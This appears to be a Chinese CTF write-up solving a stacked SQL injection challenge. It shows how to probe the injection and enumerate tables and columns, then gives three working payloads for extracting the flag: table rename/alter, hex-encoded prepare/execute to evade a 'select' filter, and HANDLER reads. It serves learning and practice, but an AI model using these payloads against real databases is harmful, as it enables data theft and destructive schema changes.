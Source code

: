 网页环境<br />![image.png](https://img-blog.csdnimg.cn/img_convert/434cfacea88d014f556ac56fdbb36d36.png)<br />判断是否是字符型注入<br />`1'`<br />![image.png](https://img-blog.csdnimg.cn/img_convert/2e8bc28f595dbd11974934fa20cfa369.png)<br />判断是否存在关键字过滤<br />`select`<br />![image.png](https://img-blog.csdnimg.cn/img_convert/2c4f19b88e0523022badbf2d4d7d92ec.png)<br />联合查询被过滤，只能用堆叠注入了<br />查看有几个字段<br />`1' order by 2#`<br />![image.png](https://img-blog.csdnimg.cn/img_convert/e3ca73027a6fe25e7ae0afa4bda848c9.png)<br />正常回显<br />`1' order by 3#`![image.png](https://img-blog.csdnimg.cn/img_convert/895055b725e189d42fe79ffc45702f31.png)<br />回显报错，可以看出只有两个字段<br />查看所有数据库<br />`1'; show databases;`<br />![image.png](https://img-blog.csdnimg.cn/img_convert/823d4fa00155a99b585dde3cf3cef82e.png)<br />查看所有数据表<br />`1'; show tables;`<br />![image.png](https://img-blog.csdnimg.cn/img_convert/b56eead234c1e36df2c5049451dec8a1.png)<br />爆words数据表的字段<br />`1';show columns from words;#`![image.png](https://img-blog.csdnimg.cn/img_convert/72352caabc7e406ed88ce07fb607b3c5.png)<br />爆1919810931114514数据表字段（注意数据表为数字的时候需要用反引号括起来）<br />`1';show columns from `1919810931114514`;#`<br />![image.png](https://img-blog.csdnimg.cn/img_convert/014d47d3f850c8e809957090e00fb188.png)<br />可以看到这两个表words表有两个字段，而另一个只有一个字段<br />后台SQL查询语句应该是：<br />`select * from words where id=`<br />所以说只能先查询id字段，然而另一个表只有一个flag字段是肯定爆不了flag的，并且类型为varchar字符串类型，而恰巧words数据表里面的data也是varchar类型，因此从这里就可以得到做题思路，通过rename函数进行改表，把`1919810931114514`改为words，增加新字段id，将flag改为data，将刚开始那个words表改为其他任意表。<br />构造payload：<br />`1';rename table words to BaiMao;rename table `1919810931114514` to words;alter table words add id int unsigned not NULL auto_increment primary key;alter table words change flag data varchar(100);#`
> rename修改表名
> alter修改已知的列
> add增加
> int整数类型
> unsigned无符号类型
> **not null**- 指示某列不能存储 NULL 值。
> **primary key** - NOT NULL 和 UNIQUE 的结合。指定主键，确保某列（或多个列的结合）有唯一标识，每个表有且只有一个主键。
> **auto_increment**-自动赋值，默认从1开始。

成功回显flag：<br />![image.png](https://img-blog.csdnimg.cn/img_convert/8122d53a32c6179d396ce793725a8a9c.png)<br />注意没有回显flag，就类似于你更新了个东西但是没刷新，重新在文本框里面输入1提交即可回显flag。
<a name="z4q8F"></a>
### 第二种解法 编码逃逸 绕过滤
由于select被过滤，考虑使用编码进行绕过<br />使用select查询就很简单了<br />构造payload<br />`select *from where `1919810931114514``（注意这里使用反引号把这个数字包括住，md编辑器打不上去） <br />*号查询数据表里面的全部内容，这就是爆出flag的原理<br />进行16进制编码加密<br />`73656c656374202a2066726f6d20603139313938313039333131313435313460`<br />最终payload：<br />`1';SeT@a=0x73656c656374202a2066726f6d20603139313938313039333131313435313460;prepare execsql from @a;execute execsql;#`
> - prepare…from…是预处理语句，会进行编码转换。
> - execute用来执行由SQLPrepare创建的SQL语句。
> - SELECT可以在一条语句里对多个变量同时赋值,而SET只能一次对一个变量赋值。
> - 0x就是把后面的编码格式转换成16进制编码格式
> - 那么总体理解就是，使用SeT方法给变量a赋值，给a变量赋的值就是select查询1919810931114514表的所有内容语句编码后的值，execsql方法执行来自a变量的值，prepare...from方法将执行后的编码变换成字符串格式，execute方法调用并执行execsql方法。
参考：https://blog.csdn.net/qq_44657899/article/details/10323914

回显flag：<br />![image.png](https://img-blog.csdnimg.cn/img_convert/d9511654ed16ddd5152c6598b5fecbde.png)
<a name="E2zV0"></a>
### 第三种解法 handler代替select
select命令被过滤了怎么办？我们还可以用handler命令进行查看，handler命令可以一行一行的显示数据表中的内容。<br />构造payload：<br />`1'; handler `1919810931114514` open as `a`; handler `a` read next;#`
> handler代替select，以一行一行显示内容
> open打开表
> as更改表的别名为a
> read next读取数据文件内的数据次数
